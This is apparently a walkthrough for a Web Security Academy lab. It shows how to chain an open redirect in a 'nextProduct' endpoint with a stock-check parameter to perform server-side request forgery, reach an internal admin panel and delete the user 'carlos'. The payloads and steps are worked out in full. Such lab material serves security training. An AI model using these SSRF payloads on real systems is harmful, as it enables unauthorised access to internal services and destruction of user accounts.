 ```bash

HTTP/1.1 400 Bad Request

"External stock check host must be stock.weliketoshop.net"

At the bottom right of the page where you click "Check stock" note the "Return to list" and "next product" options
This is at end-point:

https://acb11f9c1fbfb4c9c04c2cc900970050.web-security-academy.net/product?productId=2

Go to: HTTP history
Find:

GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/1.1

Go to repeater
Change:

stockApi=http://192.168.0.12:8080/admin

To

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin

Response:

HTTP/1.1 200 OK

Right-Click the "200" response
Click "Show response in browser"
Delete the username "carlos"
Upon failure
Go to: HTTP history

GET /http://192.168.0.12:8080/admin/delete?username=carlos HTTP/1.1

Copy:

/delete?username=carlos

Go to repeater
Change:

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin

To

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

Response:

HTTP/1.1 200 OK

```
